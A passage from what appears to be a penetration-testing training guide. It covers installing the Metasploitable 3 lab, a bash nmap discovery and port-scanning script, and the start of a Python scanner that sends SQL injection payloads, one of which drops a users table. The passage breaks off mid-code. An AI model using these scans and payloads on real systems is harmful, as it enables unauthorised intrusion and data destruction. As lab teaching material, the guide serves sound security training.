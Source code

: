 ##### Metasploitable 3
```bash
# Vagrant ile kurulum
vagrant init rapid7/metasploitable3-ub1404
vagrant up

# Manuel kurulum
wget https://github.com/rapid7/metasploitable3/releases/download/v2.0.0/metasploitable3-ub1404.box
vagrant box add metasploitable3 metasploitable3-ub1404.box
```

### Practical Exercises

#### Exercise 1: Network Discovery
```bash
#!/bin/bash
# Network Discovery Script

echo "[+] Starting Network Discovery"

# Host Discovery
echo "[+] Discovering live hosts..."
nmap -sn 192.168.1.0/24 | grep "Nmap scan report" | awk '{print $5}'

# Port Scanning
echo "[+] Scanning common ports..."
nmap -sS -O -sV --top-ports 1000 192.168.1.0/24

# Service Enumeration
echo "[+] Enumerating services..."
nmap -sC -sV -p- 192.168.1.100

echo "[+] Discovery completed"
```

#### Exercise 2: Web Application Testing
```python
#!/usr/bin/env python3
# Web Application Security Scanner

import requests
import sys
from urllib.parse import urljoin
from bs4 import BeautifulSoup

class WebScanner:
    def __init__(self, target_url):
        self.target_url = target_url
        self.session = requests.Session()
        self.vulnerabilities = []
    
    def sql_injection_test(self, url):
        """Test for SQL Injection vulnerabilities"""
        payloads = [
            "' OR '1'='1",
            "' UNION SELECT NULL--",
            "'; DROP TABLE users--"
        ]
        
        for payload in payloads:
            try:
                response = self.session.get(url, params={'id': payload})
                if "mysql" in response.text.lower() or "syntax error" in response.text.lower():
                    self.vulnerabilities.append({
```